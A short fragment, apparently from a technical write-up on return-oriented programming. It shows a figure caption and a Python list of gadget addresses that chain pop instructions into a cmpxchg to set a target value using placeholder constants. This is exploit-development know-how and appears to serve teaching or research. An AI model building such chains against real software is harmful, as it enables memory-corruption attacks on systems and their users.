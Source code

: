| ![cmpxchg-chain_command.PNG](/assets/img/20240301/cmpxchg-chain_command.PNG) |
| :---: |
| Figure 18: CMPXCHG Chain Progression of Instructions and Register Values |

```python
chain = [

    # ropnop for breakpoint purposes
    0x7d6eb3,                   # 0x7d6eb3: ret ;
    
    0x7d2278,                   # 0x7d2278: pop rax ;
    0xabcdabcdabcdabcd,         # cmp value 1
    0x7d5b22,                   # 0x7d5b22: pop rbx ;
    0xabcdabcdabcdabcd,         # cmp value 2
    
    0x7d5b24,                   # 0x7d5b24: pop rcx ; ret ;
    0xdeadbeefdeadbeef,         # target value
    0x7d5b49,                   # 0x7d5b49: cmpxchg rbx, rcx ; ret ;

]
```

---